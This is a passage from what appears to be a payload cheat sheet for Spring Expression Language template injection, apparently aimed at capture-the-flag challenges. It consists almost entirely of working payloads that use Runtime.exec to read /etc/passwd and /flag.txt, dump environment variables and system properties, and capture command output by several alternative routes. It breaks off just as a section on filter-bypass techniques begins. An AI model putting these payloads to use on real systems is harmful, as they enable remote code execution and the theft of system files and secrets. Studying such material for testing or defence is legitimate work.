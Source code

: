 ```
${T(String).valueOf(T(java.lang.Runtime).getRuntime().exec('cat /etc/passwd'))}
```

### Reading Files

```
${T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('cat /flag.txt').getInputStream())}
```

### Environment Information

```
${T(java.lang.System).getenv()}
${T(java.lang.System).getProperties()}
```

### Using ClassLoader

```
${T(java.lang.Class).forName('java.lang.Runtime').getRuntime().exec('cat /flag.txt')}
```

### Object Instantiation

```
${new java.util.Scanner(T(java.lang.Runtime).getRuntime().exec('cat /flag.txt').getInputStream()).next()}
```

## Advanced Payloads

### Process Output Capture

```
${T(org.springframework.util.StreamUtils).copyToString(T(java.lang.Runtime).getRuntime().exec('cat /flag.txt').getInputStream(), T(java.nio.charset.StandardCharsets).UTF_8)}
```

### Using Java Reflection

```
${#rt = T(java.lang.Runtime).getRuntime(),#rt.exec('cat /flag.txt')}
```

### SpEL Context Variables (Spring-specific)

```
${#strings.contains(#rt.exec('cat /flag.txt'),'flag')}
```

## Bypass Techniques

### String Manipulation
